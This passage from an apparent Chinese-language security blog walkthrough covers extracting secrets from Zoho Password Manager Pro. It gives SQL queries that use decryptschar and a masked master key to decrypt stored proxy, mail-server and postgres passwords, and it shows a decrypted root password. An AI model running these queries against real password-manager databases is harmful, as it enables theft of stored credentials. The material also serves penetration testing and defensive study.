 继续使用 Zoinks 进行解密

[![Untitled](assets/1710207710-63dbc8bdc2314faea6b7203725ef75d3.png)](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2022.png)

这里解密出 test 资源，root 用户的明文口令 123456

- - -

## [](#%E8%A7%A3%E5%AF%86%E4%BB%A3%E7%90%86%E9%85%8D%E7%BD%AE)解密代理配置

当配置了代理服务器时，同样用类似的方法进行查询和解密

[![Untitled](assets/1710207710-a009707b621db19b078c132800d7a8c7.png)](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2023.png)

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>select proxy_id,direct_connection,proxy_server,proxy_port,username,decryptschar(ptrx_proxysettings.PASSWORD,'***master_key***') from ptrx_proxysettings<br>``` |

[![Untitled](assets/1710207710-68b5407cf96bbcb42667b356450e3372.png)](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2024.png)

[![Untitled](assets/1710207710-c7099d19f9338e3769fc9ff087757eea.png)](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2025.png)

- - -

## [](#%E8%A7%A3%E5%AF%86%E9%82%AE%E4%BB%B6%E6%9C%8D%E5%8A%A1%E5%99%A8%E9%85%8D%E7%BD%AE)解密邮件服务器配置

pmp 这个默认都是配置了邮件服务器的

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>select mailid,mailserver,mailport,sendermail,username,decryptschar(ptrx_mailsettings.PASSWORD,'***master_key***'),tls,ssl,tlsifavail,never from ptrx_mailsettings<br>``` |

[![Untitled](assets/1710207710-46325de8c08a69f7f7077610198cb970.png)](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2026.png)

- - -

## [](#pg%E6%95%B0%E6%8D%AE%E5%BA%93postgres%E7%94%A8%E6%88%B7%E5%AF%86%E7%A0%81)pg 数据库 postgres 用户密码

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>select username,decryptschar(dbcredentialsaudit.PASSWORD,'***master_key***'),last_modified_time from dbcredentialsaudit<br>``` |

[![Untitled](assets/1710207710-c0d0943ad50113e140c964535a692cd4.png)](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2027.png)

[![Untitled](assets/1710207710-8c491fb5e0ca6723f662634358ded94f.png)](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2028.png)

